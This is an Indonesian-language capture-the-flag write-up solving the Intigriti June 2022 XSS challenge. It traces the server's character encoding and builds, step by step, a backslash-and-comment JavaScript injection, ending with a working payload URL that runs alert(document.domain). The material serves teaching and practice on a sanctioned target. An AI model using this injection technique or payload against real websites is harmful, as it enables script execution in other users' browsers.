 # Intigriti June 2022 XSS Challenge
https://challenge-0622.intigriti.io/challenge/index.php


## Dari Alert
Kita mungkin ingin melihat alert, sebelum melihat yang lainnya. Karena serangan XSS sangat relate dengan perintah alert pada JavaScript.  

![](attachments/Pasted%20image%2020220628101540.png)  

Pada page source, bisa dilihat bahwa perintahnya menjadi:
```js
<script>alert(`DOCUMENT.DOMAIN${DOCUMENT.DOMAIN}`)</script>
```

Ternyata setelah beberapa percobaan, alert ini adalah sebuah rabbit hole, karena:
- Semua perintah yang dimasukkan di dalam form ini, akan di upper case oleh server. Akibatnya perintah JavaScript tidak bisa berjalan (perintah JavaScript bersifat case sensitive).
- Terdapat backtick (\`) dan `<script>alert(input)</script>`yang memancing kita untuk menggunakan `${perintah JS}`, namun sekali lagi bahwa semua perintah di sini akan diubah ke upper case.

## Dari Milk
Pada halaman Milk, terdapat perintah `eval(input)` yang bisa menjadi vector untuk serangan JavaScript. Namun sayangnya input form ini hanya menerima data angka.  

![](attachments/Pasted%20image%2020220628132000.png)  

```html
<script>
var total = eval(5.000000+10.000000*4); document.getElementById("total").value=total;
</script>
```

## Dari Cookies
Vektor serangan tidak salah lagi ada pada cookie. Namun untuk bisa memasukkan payload XSS di sini cukup tricky karena tidak ada form input yang terlihat. Kita harus melihat JavaScript yang mengkonstruksi halaman ini.  

![](attachments/Pasted%20image%2020220628104524.png)  

```html
<script>
function cookie_spawn(eggs,chocolate,vendor,location,price){const cookie_value= 'eggs:' + eggs.toString() +', chocolate:'+ chocolate.toString() +', price:10, vendor:'+ vendor.toString() +'; ';document.cookie='cookieshop= '+cookie_value};function create() { cookie_spawn('eggs','chocolate','https://challenge-0622.intigriti.io/challenge/index.php?choice=cookie','/challenge/index.php?choice=cookie',);
};create();
</script>
```

Pretty version (https://beautifier.io/):
```html
<script>
    function cookie_spawn(eggs, chocolate, vendor, location, price) {
        const cookie_value = 'eggs:' + eggs.toString() + ', chocolate:' + chocolate.toString() + ', price:10, vendor:' + vendor.toString() + '; ';
        document.cookie = 'cookieshop= ' + cookie_value
    };

    function create() {
        cookie_spawn('eggs', 'chocolate', 'https://challenge-0622.intigriti.io/challenge/index.php?choice=cookie', '/challenge/index.php?choice=cookie', );
    };
    create();
</script>
```

Mencoba memasukkan input ke dalam URL
```js
/* input: &<img>
url : https://challenge-0622.intigriti.io/challenge/index.php?choice=cookie&%3Cimg%3E 

Hasil input kepada JavaScript */
    function create() {
        cookie_spawn('eggs', 'chocolate', 'https://challenge-0622.intigriti.io/challenge/index.php?choice=cookie263Cimg3E', '/challenge/index.php?choice=cookie263Cimg3E', );
    };
    create();
```

Terlihat bahwa input tersebut di-escape oleh server, sehingga kita tidak bisa secara mudah menjalankan JavaScript. Kita bisa fokuskan pada bagian ini: `'https://challenge-0622.intigriti.io/challenge/index.php?choice=cookie263Cimg3E', '/challenge/index.php?choice=cookie263Cimg3E'`
- Karakter &, <, dan > diubah menjadi 26, 3C dan 3E untuk mencegah serangan XSS.

Kita perlu mengetahui semua karakter yang di-encode dan yang tidak di-encode pada web ini. Untuk hal ini kita bisa gunakan halaman alert.  
![](attachments/Pasted%20image%2020220628134239.png)  

List perubahannya adalah sebagai berikut.
```
<>/?;:'"`{}()[]\|@$^&*~#

3C3E/?;:272260{}()[]\|@$^&*~#
```

Ternyata walaupun semua petik di encode, namun backslash tidak diencode. Coba kita lihat bagaimana serangan ke web tersebut dengan menggunakan semua karakter yang tidak di-encode.

Notes penting untuk serangan ini :
1. Kita bisa injeksikan backslash (\\) untuk mengacaukan string pada JavaScript tersebut.
2. Memainkan comment (//) sebagai escape character agar code hasil injeksi dapat tetap berjalan.
3. Fokuskan pada bagian `'https://challenge-0622.intigriti.io/challenge/index.php?choice=cookie263Cimg3E', '/challenge/index.php?choice=cookie263Cimg3E'` 
4. Terdapat array pada potongan JavaScript tersebut, perubahan pada URL akan mengakibatkan perubahan pada elemen array tersebut.
5. Serangan ini harus bisa dilakukan melalui kolom URL, tidak mengubah isi dari JavaScript melalui console maupun inspector. Namun untuk melakukan testingnya, kita bisa lakukan melalui console.

![](attachments/Pasted%20image%2020220628135842.png)

Jadi step serangannya adalah
1. Masukkan karakter ( \\ ) sebagai escape character untuk tanda petik satu ( ' ) 
```js
function cookie_spawn(eggs,chocolate,vendor,location,price){const cookie_value= 'eggs:' + eggs.toString() +', chocolate:'+ chocolate.toString() +', price:10, vendor:'+ vendor.toString() +'; ';document.cookie='cookieshop= '+cookie_value};function create() { cookie_spawn('eggs','chocolate','https://challenge-0622.intigriti.io/challenge/index.php?choice=cookie26\','/challenge/index.php?choice=cookie\',);
};create();
```
   
2. Script di atas akan menghasilkan` error: invalid escape sequence` masukkan karakter ( // ) sebelum ( \\ )sebagai escape dari array terakhir.
```js
function cookie_spawn(eggs,chocolate,vendor,location,price){const cookie_value= 'eggs:' + eggs.toString() +', chocolate:'+ chocolate.toString() +', price:10, vendor:'+ vendor.toString() +'; ';document.cookie='cookieshop= '+cookie_value};function create() { cookie_spawn('eggs','chocolate','https://challenge-0622.intigriti.io/challenge/index.php?choice=cookie26//\','/challenge/index.php?choice=cookie//\',);
};create();
```

3. Script di atas akan menghasilkan `SyntaxError: missing : in conditional expression`. Silahkan search tentang conditional expression atau ternary expression pada JavaScript, kita bisa gunakan karakter : 1 di akhir sebagai pengganti elemen yang hilang pada ternary expression.
```js
function cookie_spawn(eggs,chocolate,vendor,location,price){const cookie_value= 'eggs:' + eggs.toString() +', chocolate:'+ chocolate.toString() +', price:10, vendor:'+ vendor.toString() +'; ';document.cookie='cookieshop= '+cookie_value};function create() { cookie_spawn('eggs','chocolate','https://challenge-0622.intigriti.io/challenge/index.php?choice=cookie26:1//\','/challenge/index.php?choice=cookie//\:1',);
};create();
```

4. Terdapat `SyntaxError: missing ) after argument list`,  kita bisa fix ini sekaligus dengan menginjeksikan `);alert(document.domain)`. Lakukan pada console untuk mempermudah.
```js
function cookie_spawn(eggs,chocolate,vendor,location,price){const cookie_value= 'eggs:' + eggs.toString() +', chocolate:'+ chocolate.toString() +', price:10, vendor:'+ vendor.toString() +'; ';document.cookie='cookieshop= '+cookie_value};function create() { cookie_spawn('eggs','chocolate','https://challenge-0622.intigriti.io/challenge/index.php?choice=cookie26:1//\','/challenge/index.php?choice=cookie:1);alert(document.domain)//\',);
};create();
```

5. Terdapat `Uncaught ReferenceError: challenge is not defined create debugger eval code:1 <anonymous> debugger eval code:2`, masalahnya adalah challenge ini tidak didefinisikan pada JS. Namun karena variabel tersebut ada pada fungsi `create`, sehingga error tersebut tidak akan muncul apabila `create()` dipanggil atau kita bisa menjalankan `document.domain` sebelum `create()`. Kita tutup saja dengan `}` sebelum `;alert`
```js
function cookie_spawn(eggs,chocolate,vendor,location,price){const cookie_value= 'eggs:' + eggs.toString() +', chocolate:'+ chocolate.toString() +', price:10, vendor:'+ vendor.toString() +'; ';document.cookie='cookieshop= '+cookie_value};function create() { cookie_spawn('eggs','chocolate','https://challenge-0622.intigriti.io/challenge/index.php?choice=cookie26:1//\','/challenge/index.php?choice=cookie:1)};alert(document.domain)//\',);
};create();
```

6. Terdapat `SyntaxError: expected expression, got '}'` akibat adanya karakter ( } ) sebelum create, kita bisa injeksikan `a = {` sebelumnya, jadi final code untuk mendapatkan `document.domain`.
```js
function cookie_spawn(eggs,chocolate,vendor,location,price){const cookie_value= 'eggs:' + eggs.toString() +', chocolate:'+ chocolate.toString() +', price:10, vendor:'+ vendor.toString() +'; ';document.cookie='cookieshop= '+cookie_value};function create() { cookie_spawn('eggs','chocolate','https://challenge-0622.intigriti.io/challenge/index.php?choice=cookie26:1);}alert(document.domain);a={//\','/challenge/index.php?choice=cookie:1);}alert(document.domain);a={//\',);
};create();
```

URL yang digunakan adalah:
```
https://challenge-0622.intigriti.io/challenge/index.php?choice=cookie&:1);}alert(document.domain);a={//\
```


